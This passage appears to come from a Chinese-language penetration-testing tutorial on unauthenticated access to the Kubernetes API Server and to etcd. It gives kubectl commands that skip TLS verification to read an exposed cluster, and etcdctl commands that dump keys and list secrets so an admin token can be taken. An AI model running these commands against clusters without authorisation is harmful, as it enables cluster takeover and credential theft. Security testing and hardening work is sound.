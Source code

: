 如何判断存在该漏洞呢，可以访问`/pods` 或者`/apis`等路径来确定。如果不存在该漏洞，则需要认证，访问就会出现`Unauthorized`，`forbidden: User \"system:anonymous\" cannot get path`等提示。

### 1.2 漏洞利用

如果存在Kubernetes API Server未授权访问，意味着可以控制整个集群，危害是相当大的。

**下载kubectl**

```
#https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

**尝试读取集群节点**

```
./kubectl -s https://ip:6443 --insecure-skip-tls-verify get nodes
```

如果读取节点成功，则就可以执行常规的kubectl命令。比如查看pods、部署特权容器等等。<font color="red">如果是https，需要认证，如果是开了匿名访问，随便输入账号密码就可以认证成功</font>



## 2. ETCD未授权访问

etcd端口默认是2379，如果配置不当则存在未授权访问，如果存在未授权访问我们可以获取到集群的凭证等重要信息，进而控制集群



### 2.1 漏洞判断

**安装客户端工具**

直接在github上下载，解压后里面就有etcdctl

```
https://github.com/etcd-io/etcd/releases
```

判断是否存在未授权访问我们可以执行如下命令

```
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=ip:port get / --prefix
```



### 2.2 漏洞利用

漏洞利用，我们可以读取kubernetes的 kube-system admin账号的token，从而接管集群

**查看有哪些secrets**

```
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=ip:port get / --prefix --keys-only | grep /secrets/
```
